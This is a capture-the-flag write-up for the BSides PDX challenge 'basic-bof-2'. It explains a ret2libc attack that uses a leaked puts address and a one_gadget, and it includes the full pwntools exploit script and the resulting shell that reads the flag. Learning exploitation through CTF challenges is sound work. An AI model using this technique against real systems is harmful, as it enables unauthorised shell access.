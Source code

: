 # basic-bof-2 

This is my first experience with a ret2libc attack.  Thankfully I was able to get some help from my peers on the basics as well as some pretty good tools to use :)

Running the binary for the first time, looks like we get an address leak, but since PIE is enabled, this number is going to be different everytime.

Luckily, since we know the address during run time before we have to supply any input, we can just parse that address out and use it to find the base of where libc is located.

So far, we have:
```python
from pwn import *
import os, sys
#io = process('./basic-bof')
io = remote('basic-bof-2.bsidespdxctf.party', 9999)

context(arch = "amd64")
libc = ELF("libc-2.27.so")
elf = ELF("./basic-bof")

leak = int(io.recvline().decode().split("but there is ")[1].split(".")[0], 16)
base = leak - libc.symbols["puts"]
```

Now that we know where the base of libc is, we just need to overwrite RIP with the location we want to jump to.  I used one_gadget to get a list of possible places that would give us a shell: `one_gadget libc-2.27.so`

```
0x4f365 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f3c2 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a45c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Sweet, we have everything we need to build the full payload.  Using a trick I learned from a teammate, I can just repeat the location I want to jump to many times to fill that buffer.  

Here is the final exploit:

```python
from pwn import *
import os, sys
#io = process('./basic-bof')
io = remote('basic-bof-2.bsidespdxctf.party', 9999)

context(arch = "amd64")
libc = ELF("libc-2.27.so")
elf = ELF("./basic-bof")

leak = int(io.recvline().decode().split("but there is ")[1].split(".")[0], 16)
base = leak - libc.symbols["puts"]
one_gadget = 0x4f365

payload = p64(base + one_gadget) * 8
log.info(payload)

io.sendline(payload)
io.interactive()
```

And running it we get:
```
[*] Switching to interactive mode

Get a shell: $ cat flag.txt
BSidesPDX{r3t_t0-0ne_g@dg3t}
```

This challenge was a great learning experience for me, and I learned a lot about this type of exploit!
